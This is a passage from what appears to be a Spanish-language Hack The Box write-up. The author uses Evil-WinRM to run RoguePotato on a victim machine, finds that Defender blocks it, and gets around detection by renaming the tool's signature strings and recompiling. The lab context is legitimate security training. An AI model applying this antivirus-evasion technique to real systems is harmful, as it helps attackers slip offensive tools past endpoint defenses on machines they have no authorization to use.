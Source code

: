 Pero sigue detectando un virus

```null
*Evil-WinRM* PS C:\Temp> .\RoguePotato.exe
Program 'RoguePotato.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\RoguePotato.exe
+ ~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ .\RoguePotato.exe
+ ~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Si le hago un Strings y filtro por Potato, detecta coincidencias

```null
strings RoguePotato.exe | grep -i potato
RoguePotato
[+] Starting RoguePotato...
```

Hago una búsqueda recursiva y remplazo todo lo que tenga ese nombre para que no de problemas

<img src="/writeups/assets/img/APT-htb/16.png" alt="">

Vuelvo a compilar y lo subo a la máquina víctima
